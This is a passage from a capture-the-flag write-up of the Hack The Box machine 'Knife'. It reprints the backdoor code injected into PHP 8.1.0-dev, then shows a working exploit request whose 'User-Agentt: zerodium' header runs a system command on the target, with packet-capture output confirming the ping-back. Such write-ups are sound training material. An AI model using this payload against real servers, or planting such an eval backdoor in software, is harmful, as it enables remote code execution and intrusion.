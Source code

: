 ## Foothold

The code injected within PHP 8.1.0-dev executes arbitrary code from the `USER_AGENTT` header when it starts with *zerodium*:

```php
...
{
	zval zoh;
	php_output_handler *h;
	zval *enc;

	if ((Z_TYPE(PG(http_globals)[TRACK_VARS_SERVER]) == IS_ARRAY || zend_is_auto_global_str(ZEND_STRL("_SERVER"))) &&
		(enc = zend_hash_str_find(Z_ARRVAL(PG(http_globals)[TRACK_VARS_SERVER]), "HTTP_USER_AGENTT", sizeof("HTTP_USER_AGENTT") - 1))) {
		convert_to_string(enc);
		if (strstr(Z_STRVAL_P(enc), "zerodium")) {
			zend_try {
				zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid 2017");
			} zend_end_try();
		}
	}
...
```

It is possible to verify the backdoor by trying to ping back our machine using `User-Agentt: zerodium system('ping -c1 10.10.14.17');`:

```
POST /index.php HTTP/1.1
Host: 10.10.10.242
User-Agentt: zerodium system('ping -c1 10.10.14.17'); 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 0
```

and thus obtaining a ping back:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Knife/scans]
└─$ sudo tcpdump -i tun0 icmp
[sudo] password for kali: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
18:01:03.012545 IP knife.htb > 10.10.14.17: ICMP echo request, id 1, seq 1, length 64
18:01:03.012577 IP 10.10.14.17 > knife.htb: ICMP echo reply, id 1, seq 1, length 64
```
